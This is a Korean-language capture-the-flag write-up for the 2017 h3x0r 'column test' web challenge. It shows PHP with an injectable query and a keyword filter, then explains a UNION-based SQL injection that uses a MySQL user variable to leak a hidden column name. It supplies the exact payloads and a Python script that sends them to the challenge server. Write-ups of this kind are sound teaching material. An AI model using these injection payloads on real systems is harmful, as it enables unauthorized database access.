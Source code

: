 # 2017 h3x0r WEB - column test

## Key words

- SQLi
- mysql variable

## Solution

문제 페이지에 접근하면 다음과 같은 PHP 소스를 제공해 줍니다.

```php
<?php

/*
 *      if you see the password column name,
 *      you will get the flag~!
 *
 */

include("./dbconfig.php");
$id = $_GET['id'];
$pw = $_GET['pw'];

if ( isset($id) || isset($pw) ) {
    if (preg_match("/info|sche|,/i", $id))
        exit("no hack ~_~");
    if (preg_match("/info|sche/i", $pw))
        exit("no hack ~_~");

    $query = "SELECT {$pw_column_name}, {$id_column_name} FROM {$table} WHERE {$id_column_name}='{$id}' AND {$pw_column_name}='{$pw}'";
    $result = mysqli_fetch_array(mysqli_query($conn ,$query));

    if ($result['id']) {
        echo "Hello {$result['id']}";
    } else {
        echo "DB error";
    }
} else {
    highlight_file(__FILE__);
}

?>
```

목적은 mysql DB에 있는 password `컬럼 이름`에 flag가 존재한다고 합니다.

그 외에는 기본적인 sql injection이 될 수 있도록 설정이 되어 있습니다.

컬럼명을 알기 위해, `load_file`, `inf\x0bomation_sch\x0bma`등등을 시도 해 보았지만 모두 실패 하였고, 결론적으로 PHP에서 변수에 값을 넣은 값을 쿼리에 출력될 수 있는 곳에 위치 시켜야 합니다.

`{$id}`를 `1' union select ` 로 만들게 되면 뒷 부분은 다음과 같이 되게 됩니다.

- ... where {$id_column_name} = '`1' union select `' AND {$pw_column_name}='{$pw}'

이렇게 되면 뒷 `union select`이후 뒷 부분이 `' AND {$pw_column_name}='{$pw} ` 이런식으로 스트링이 들어 가게 됩니다.

문제에서 약간 트릭이 있었던 부분은 출력 시, `id`를 출력하게 되어 있는데 이는 두 번째 필드 입니다. 그런데 `id`입력에 `,`를 넣을 수 없어 `pw`쪽에서 `,`를 처리 해서 컬럼을 맞춰줘야 하는데 이 부분이 까다로웠습니다.

위 union select 쿼리를 하게 되면 결국 `pw`쪽에서 콤마를 넣어서 컬럼 2개를 맞춰 줘야 하는데 이렇게 되면 우리가 열심히 넣었던 첫 번째 컬럼이 출력이 되질 않습니다.

그래서 `' AND ...` 이 스트링을 `mysql variable`형태로 변환하여 뒷 부분에서 찍어 주어 플래그를 얻을 수 있었습니다.

- {$id} = `1' union select @t=`
- {$pw} = `,@t;-- -`
- SELECT {$pw_column_name}, {$id_column_name} FROM {$table} WHERE {$id_column_name}='`1' union select @t:=`' AND {$id_column_name}='`,@t;-- -`'

결과적으로, `Hello SDNYMFJ7bXlzcWxfdmFyaWFibGVfaXNfc29fdXNlZnVsfQ=` 라는 스트링이 출력되었고 뒤에 `base64`에 `=` 패딩 하나더 추가 하여 디코딩 하면 플래그가 출력 됩니다.

## Code

```python
import requests

url = "http://13.124.1.51/web/prob15/index.php"
params = {
	"id": "1' union select @t:=",
	"pw": ",@t;-- -"
}
r = requests.get(url, params=params)
print r.content

# result
# SDNYMFJ7bXlzcWxfdmFyaWFibGVfaXNfc29fdXNlZnVsfQ==
# H3X0R{mysql_variable_is_so_useful}
```
